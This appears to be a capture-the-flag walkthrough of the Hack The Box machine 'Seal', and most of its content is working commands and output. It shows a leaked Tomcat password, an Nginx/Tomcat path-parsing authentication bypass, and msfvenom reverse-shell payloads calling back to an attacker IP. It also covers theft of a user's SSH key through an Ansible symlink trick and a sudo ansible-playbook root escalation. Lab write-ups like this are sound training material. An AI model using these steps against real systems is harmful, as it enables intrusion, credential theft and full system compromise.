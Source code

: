 ### Enum
Register the git bucket and review the codes
```html
<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>
<!--
		  <role rolename="tomcat"/>
		  <role rolename="role1"/>
		  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
		  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
		  <user username="role1" password="<must-be-changed>" roles="role1"/>
		-->
		```

		s3cret


	## ToDo
		* Remove mutual authentication, setup registraion and login 
		* Deploy updated tomcat configuration
		* Disable manager and host-manager
		

Tho, `seal.htb/manager` won't work directly even I gave it correct creds. Other methods failed too.

Let's google about `Exploit Tomcat Nginx mutual authentication` since we saw it's Nginx + Tomcat.

### Blackhat!
* https://www.google.com/search?client=firefox-b-d&q=Exploit+Tomcat+Nginx+mutual+authentication
* https://rioasmara.com/2022/03/21/nginx-and-tomcat-mutual-auth-bypass/
* https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf


I would like to share a common mistake on Nginx configuration which could lead to authentication bypass. We are going to try to bypass Nginx mutual authentication

Below is the Nginx configuration that we are going to explore for exploitation. We can see from the above configuration that accessing `/manager/html`, `/admin/dashboard` and `/host-manager/html` would go to the mutual authentication check first. if the client does not provide the required certificate then error 403 will be returned.

view-source:https://10.129.95.190/admin/dashboards
```html
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

Based on the research from this blackhat 

* https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf 

that the two server (Nginx and Tomcat) will parse the http request differently thus lead to the known behaviour as below list. From page 42/87.

I can't believe how easy it is `https://seal.htb/manager;name=orange/html/`

### Hacktricks too
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#path-traversal-..
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell

```bash
msfvenom -p java/shell_reverse_tcp LHOST=tun0 LPORT=80 -f war -o shell.war
msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.4 LPORT=80 -f war -o shell2.war
```

### Foothold
```bash
nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.95.190] 41108

id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```
##### Improve the shell
* https://github.com/A1vinSmith/OSCP-PWK/wiki/Linux-Privilege-Escalation#start-with-better-shell

##### Enum
```bash victim
tomcat@seal:/opt/backups/playbook$ cat run.yml 
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
      ```

* https://www.google.com/search?client=firefox-b-d&q=Ansible+copy_links
* https://docs.ansible.com/ansible/latest/collections/ansible/posix/synchronize_module.html#parameter-copy_links

##### Exploit
```bash
ln -s /home/luis/.ssh/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard

ln: failed to create symbolic link '/var/lib/tomcat9/webapps/ROOT/admin/dashboard/.ssh': Permission denied

find /var/lib/tomcat9/webapps/ROOT/admin/dashboard/ -type d -writable
/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads

ln -s /home/luis/.ssh/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/evil01


tomcat@seal:/opt/backups/archives$ ls -lh
total 2.9M
-rw-rw-r-- 1 luis luis 596K Oct 24 02:14 backup-2023-10-24-02:14:32.gz
tomcat@seal:/opt/backups/archives$ cp backup-2023-10-24-02:14:32.gz /tmp
tomcat@seal:/tmp$ mv backup-2023-10-24-02\:14\:32.gz backup01.gz <- have to rename otherwise failed

tomcat@seal:/tmp$ tar -xzf backup01.gz 

tomcat@seal:/tmp/dashboard/uploads/evil01$ ls
authorized_keys  id_rsa  id_rsa.pub
```

### Root
##### Enum
```bash
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
    ```

* https://gtfobins.github.io/gtfobins/ansible-playbook/

##### Exploit
```bash
luis@seal:~$ TF=$(mktemp)
luis@seal:~$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
luis@seal:~$ sudo ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [localhost] ***********************************************************************************************************************************************************

TASK [Gathering Facts] *****************************************************************************************************************************************************
ok: [localhost]

TASK [shell] ***************************************************************************************************************************************************************
# id
uid=0(root) gid=0(root) groups=0(root)
```